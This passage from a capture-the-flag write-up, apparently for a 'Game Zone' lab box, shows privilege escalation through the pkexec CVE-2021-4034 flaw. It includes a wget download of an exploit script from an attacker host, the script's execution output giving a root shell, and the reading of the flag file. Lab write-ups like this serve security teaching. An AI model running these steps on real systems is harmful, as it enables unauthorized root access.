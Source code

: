 ```bash
/usr/bin/python3
agent47@gamezone:~$
```
{: .nolineno}
{: .nolineno}

Since <mark style="background: #FF5582A6;">pkexec</mark> is vulnerable so lets upload a payload that will exploit this vulnerability ⏬

```bash
agent47@gamezone:~$ wget http://10.11.75.200/pkexec_CVE-2021-4034.py
--2024-04-09 23:30:48--  http://10.11.75.200/pkexec_CVE-2021-4034.py
Connecting to 10.11.75.200:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3067 (3.0K) [text/x-python]
Saving to: ‘pkexec_CVE-2021-4034.py’

pkexec_CVE-202 100%[====>]   3.00K  --.-KB/s    in 0.1s    

2024-04-09 23:30:49 (28.2 KB/s) - ‘pkexec_CVE-2021-4034.py’ saved [3067/3067]

agent47@gamezone:~$ chmod +x pkexec_CVE-2021-4034.py 
agent47@gamezone:~$ 
agent47@gamezone:~$ python3 pkexec_CVE-2021-4034.py 
Do you want to choose a custom payload? y/n (n use default payload)  n
[+] Cleaning pervious exploiting attempt (if exist)
[+] Creating shared library for exploit code.
[+] Finding a libc library to call execve
[+] Found a library at <CDLL 'libc.so.6', handle 7f31d354a4e8 at 0x7f31d33d76a0>
[+] Call execve() with chosen payload
[+] Enjoy your root shell
# whoami
root
# cd /root
# /bin/bash -i
root@gamezone:/root# ls -al
total 24
drwx------  3 root root 4096 Aug 16  2019 .
drwxr-xr-x 23 root root 4096 Aug 16  2019 ..
lrwxrwxrwx  1 root root    9 Aug 16  2019 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
drwx------  2 root root 4096 Aug 16  2019 .cache
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   33 Aug 16  2019 root.txt
root@gamezone:/root# cat root.txt
FLAG_FLAG_FLAG_FLAG_FLAG
root@gamezone:/root# 
```
{: .nolineno}
{: .nolineno}

I am root Now !!
